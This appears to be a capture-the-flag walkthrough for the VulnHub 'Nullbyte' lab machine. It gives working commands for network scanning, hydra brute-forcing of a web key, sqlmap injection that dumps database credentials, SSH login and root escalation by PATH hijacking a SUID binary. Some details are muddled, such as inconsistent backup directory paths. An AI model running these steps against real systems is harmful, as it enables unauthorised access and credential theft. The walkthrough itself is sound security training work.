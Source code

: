 # NullByte

Nullbyte Walkthrough

### Details

* Name: Nullbyte ([VulnHub](https://www.vulnhub.com/entry/nullbyte-1,126/))
* Goal/Objective: Get */root/proof.txt*

### Scanning

Begin by using *netdiscover* to scan for computers/devices on the network:
```bash
sudo netdiscover
```

This returns the IP address of the target machine: ***192.168.132.88***. From there do a intial nmap scan on the network:
```bash
nmap -A -p0-65535 192.168.132.88
```

Ports found open:     
- 80/tcp - HTTP 
- 111/tcp - RPCBIND
- 777/tcp - SSH
- 60316/tcp

Two services that stand out are HTTP & SSH. Note that SSH (port 22) is being forwarded to port 777 (keep in mind for later).

### Website Exploring

I then proceeded to visit the website (http://192.168.132.88:80) to some investigating. The source code for the website did not display anything promising as it only contains a image & some text.

However, I decided to check the image using exiftool to see if there was anything hidden within the metadata:
```bash
exiftool main.gif
```
Looking through the output, I was able to see that there was a section labeled "comments" that contained something that could be useful: *P-): kzMb5nVYJw*


While all this was being done, I did my normal routine of website scanning to help look for extra directories, etc:
```bash
# nikto scan
nikto -h http://192.168.132.88

# gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.132.88/

# dirb
dirb 192.168.132.88
```
The most important directories that were returned were */uploads* and ***/phpmyadmin/***

### 'Key' cracking

Remember that string that was returned by exiftool? The one labeled as a comment? "P-): kzMb5nVYJw". Yeah we're going to need that. If you remove the first couple of characters up until the space, you're left with "kzMb5nVYJw". This ends up being a directory within the website, http://192.168.132.88/kzMb5nVYJw.

On this page we see a very simple page that contains a textbox titled "Key". However the issue is.. we don't have a key yet.

There are two ways to approach cracking this "Key", using Hydra or Burpsuite. I will show you both.

### Hydra

If you open up the developer tools and go to the "Network" tab, and reload the website. You notice there is a POST request being made. If you click on it and expand the "Request" tab, you see that it is a value *key* is being used as form data. With all this in mind, we can use it to construct a hydra command to help us guess the value of "key".
```bash
hydra -l none -P /usr/share/wordlists/rockyou.txt 192.168.132.88 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```
A quick breakdown of the command we're using:
* -l: username (none)
* -P: "password" wordlist
* http-post-form: Recall it is a POST call being made using the form
* "/kzMb5nVYJw/index.php:key=^PASS^:invalid key": We encode the *key* to be url encoded so that it can be passed as an argument, then we use '^' to surround the value that we want hydra to brute form, the password aka the "key"

The hydra command is able to find the password/key: elite

### Burpsuite

We will use burpsuite to also brute-force the value of "key".

Start off by opening Burpsuite and selecting the proxy tab. Then click on "open browser" and visit the page that needs the key, http://192.168.132.88/kzMb5nVYJw. Next click on "interceptor on", then on the website type in anything into the textbox and press enter. 

Then once the data is returned/shown on burpsuite, next to the "intercept is on" button, click on "Action" button and select "Send to Intruder". This will send the information over to the Intruder tab.
Switch to the Intruder tab, and at the bottom of the page, highlight the section of the string after the "=" and click on button on the right "Add". Once this is done, you should be able to switch tabs from "Positions" over to the "Payloads" tab. From here the only thing you need to do is on the "Payload setting", click on "Load" and go to "/usr/share/wordlists" to select the wordlist you would like to use. Once you have done this, you may press the orange button on the top right, "Start attack".

## SQL

Now that we have the key, we can use it on the page. We are now greeted with a page that seems to allow us to search for usernames.

Leaving the text-box empty and pressing enter returns a couple of entries from what appears to be a employee database. 

Since this seems to use mysql, let's try using *sqlmap* to explore the database.
```bash
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" --dbs
```
We see that sqlmap returns 5 databases. The two that we will explore are 'mysql' and 'seth'.

If you are not familiar with SQL, recall: A database contains tables. A table can be pictured as an excel file, where there are rows and columns of information.

### 'mysql' table

Let's first explore the *mysql* database
```bash
# Check what tables are in the 'mysql' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql --tables

# Check what columns are in the 'user' table (from the 'mysql database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user --columns

# Display User + Password from the 'user' table (from the 'mysql' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user -C User,Password --dump
# Note that the command above will ask if you would like sqlmap to try and crack the passwords via a dictionary-based attack - select 'Y', then press enter to use the default password list.
```
sqlmap returns:
* User: ***root*** | Password: ***sunnyvale***
* User: ***phpmyadmin*** | ***sunnyvale***

### 'seth' table

Next, let's explore the *seth* database
```bash
# Check what tables are in the 'seth' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth --tables

# Check what columns are in the 'users' table (from the 'seth database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users --columns

# Display user + pass from the 'users' table (from the 'seth' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C user,pass --dump
```
sqlmap returns:
* user: ***ramses*** | pass: ***YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE1***
* You can use a website to decrypt this md5 password twice to get the password: ***omega***

## SSH

One thing to quickly notice is that we now have the credentials for the */phpmyadmin/* page (root/sunnyvale). However, I wasn't able to find anything important here.

So instead, let's try and use the credentials that we found from the 'seth' database to try and login via SSH:
```bash
# Notice we're using port 777
ssh ramses@192.168.132.88 -p 777
```

## Priviledge Escalation

Now that we're in, we need to find a way to get root user.

Check to see if anything is out of the ordinary:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Notice that there is something within the www directory called 'procwatch'. If we try to run it, the output looks similar to a cron job.
```bash
/var/www/backup/procwatch
```

It seems that it is attempting to deploy ps, but unable to do so. Go to the directory and create a script that will launch a bash shell.
```bash
# Go to correct directory
cd /var/www/backups

# Create bash script and title it ps
echo "/bin/bash" > ps

# Add root privileges to the file
chmod 777 ps
```


Now, let's check if this is just a script to run the *ps* command:
```bash
# env = list all environment variables | grep PATH = return line containing PATH
env | grep PATH

# Alternatively you can do
echo $PATH
```

Update the PATH for environment variables:
```bash
# Essentially what this command does is add "." + $PATH
export PATH=.:$PATH
```

Finally run `./procwatch`







